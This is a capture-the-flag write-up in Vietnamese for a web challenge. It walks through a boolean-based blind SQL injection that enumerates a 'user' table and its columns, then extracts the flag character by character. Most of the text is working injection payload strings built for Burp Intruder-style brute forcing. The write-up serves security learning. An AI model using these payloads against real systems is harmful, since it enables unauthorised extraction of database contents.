







# WEB 2

Blind - SQL Injection



Từ khóa để nhận biết mỗi query đúng là `Username existed`

## Tìm tên bảng
khá là may mắn tôi đã thử các tên bảng: `ctfer` `users` `user` `flags` và tồn tại 1 bảng `user`

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+limit+1)='a'--+-
```



## Tìm các cột

Tiếp theo đi tìm các cột của table `user`

### Tìm độ dài các cột
Trước hết nếu cột nào đó tồn tại trong bảng `user`, ta tìm được độ dài tên cột.

Sử dụng Intruder thực hiện truy vấn sau:
```sql
search=1'+or+'1'='1'+and+(select+'a'+from+information_schema.columns+where+table_name='user'and+length(column_name)=§1§+limit+1)='a'--+-
```


Ta tìm được độ dài các cột lần lượt là: `2, 4, 5, 6`

### Tìm tên các cột

Truy vấn:

```sql
search=1'+or+'1'='1'+and+(select+substring(column_name,§1§,1)+from+information_schema.columns+where+table_name='user'and+length(column_name)=2+limit+1)='§a§'--+-&save=
```
Với độ dài tên cột `length(column_name)=2` ta BruteForce được cột này có tên là `id`

Tương tự thay giá trị `length(column_name)=2` với các độ dài còn lại ta được:

- len = 4 => name
- len = 5 => email
- len = 6 => hidden


## Kiểm tra xem Flag nằm ở cột nào

Ban đầu tôi kiểm tra độ dài của cột `name` xem có nội dung nào có độ dài khả nghi không.

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+where+length(name)=§1§+limit+1)='a'--+-
```



Sau đó tôi tìm thấy 1 nội dung có độ dài bằng 4, linh tính mách bảo đó là độ dài của chuỗi `flag`

Sau đó, tôi kiểm tra và có nội dung `flag` trong cột `name`:

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+where+name='flag'+limit+1)='a'--+-
```


### Một chút tiết lộ
Thực ra lúc ấy tôi đã không nghĩ ngay đến chuỗi `flag`. Tôi đã brute chuỗi có độ dài bằng 4 trước:

```sql
search=1'+or+'1'='1'+and+(select+substring(name,§1§,1)+from+user+where+length(name)=4+limit+1)='§a§'--+-
```


Sắp xếp lại từ 1->4: `flag`

### Đi tìm nơi thực sự chứa flag

Giờ tôi đã biết:
- Cột `id` để đánh chỉ só
- Cột `name` có 1 hàng tên là `flag`

Vậy chắc chắn nội dung của flag nằm trong trường `email`, vì tôi đã thử với `hidden` chỉ có 1 giá trị đó là 0 hoặc 1.

Với truy vấn sau, ta đi kiểm tra mỗi ký tự của email với chuỗi `abcdefghijklmnopqrstuvwxyz0123456789{_}`

```sql
search=1'+or+'1'='1'+and+(select+substring(email,§1§,1)+from+user+where+name='flag'+limit+1)='§p§'--+-
```



Sắp xếp lại ta được kết quả: `PTITCTF{sqlmap_iz_c00l}`